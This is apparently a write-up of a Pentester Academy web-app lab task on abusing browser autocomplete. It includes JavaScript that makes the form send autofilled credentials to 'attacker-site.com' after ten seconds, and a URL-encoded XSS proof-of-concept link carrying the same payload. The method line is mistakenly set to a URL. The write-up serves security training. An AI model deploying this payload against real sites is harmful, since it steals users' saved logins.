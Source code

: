 ## Task 12 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/12)</small>

Objectives:

1. Enter a Username/Password and allow the browser to remember it
2. Reload the page so the auto-complete now adds the Username/Password automatically
3. Write JS attack code which waits for 10 seconds, then submits the form automatically to your Attack server

This is pretty interesting task. So basically in this we have to exploit the autocomplete feature provided by the modern browsers.

Time waits in javascript are provided by [setInterval](https://www.w3schools.com/jsref/met_win_setinterval.asp) and [setTimeout](https://www.w3schools.com/jsref/met_win_settimeout.asp)

In this case, we need setTimeout feature.

The input tags are not set to autocomplete. So we will do it at first

![](https://i.imgur.com/sC7bnlU.png)

```js
let form = document.forms[0];
form.autocomplete = "on";
form.action = "https://attacker-site.com";
form.method = "https://attacker-site.com";
setTimeout(() => {
  form.submit();
}, 10000);
```

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/12?url=%3Cscript%3Elet%20form%20%3D%20document.forms%5B0%5D%3B%0Aform.autocomplete%20%3D%20%22on%22%3B%0Aform.action%20%3D%20%22https%3A%2F%2Fattacker-site.com%22%3B%0Aform.method%20%3D%20%22https%3A%2F%2Fattacker-site.com%22%3B%0AsetTimeout%28%28%29%20%3D%3E%20%7B%0A%20%20form.submit%28%29%3B%0A%7D%2C%2010000%29%3B%0A%3C%2Fscript%3E)

**More Resources**

1. [setInterval vs setTimeout](https://stackoverflow.com/a/729943/10362396)
2. [Setting `autocomplete` property using javascript](https://www.w3schools.com/jsref/prop_form_autocomplete.asp)
